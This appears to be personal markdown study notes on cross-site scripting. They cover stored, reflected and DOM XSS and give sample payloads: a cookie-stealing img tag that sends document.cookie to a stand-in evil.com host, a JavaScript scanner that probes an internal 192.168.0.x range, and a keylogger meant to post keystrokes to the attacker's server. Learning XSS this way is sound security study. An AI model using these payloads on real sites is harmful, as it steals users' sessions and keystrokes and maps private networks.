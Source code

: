# Cross-site Scripting (XSS)

## Stored XSS

In essence - this is where malicious strings are stored in a database that will be served to a user at some point. 

* Stored XSS --> Where do we store? --> database

### Quick and dirty method to steal a visitor's cookies:

`<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />`

## Reflected XSS

* Malicious payload is in the **request** to the website. **RE**flected == **RE**quest.
* Most common XSS attack.

## DOM XSS

Malicious payload excecuted *after* page javascript is executed either via page load or page interaction.

* Things to look for: attaching onto tags and injecting your own javascript instead to something like `onmouseover=<maliciousScript>`. 

## XSS Port Scanner

### Sample code
This scanner script looks for web servers (favicon.ico) internally. 

```javascript
 <script>
 for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
  let ip = '192.168.0.' + i // Creates variable for forming IP
  // Creating an image element, if the resource can load, it logs to the /logs page.
  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code // This is adding the image element to the webpage
 }
</script> 
```

## XSS Keylogger

### Sample code
```javascript
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

{%hackmd theme-dark %}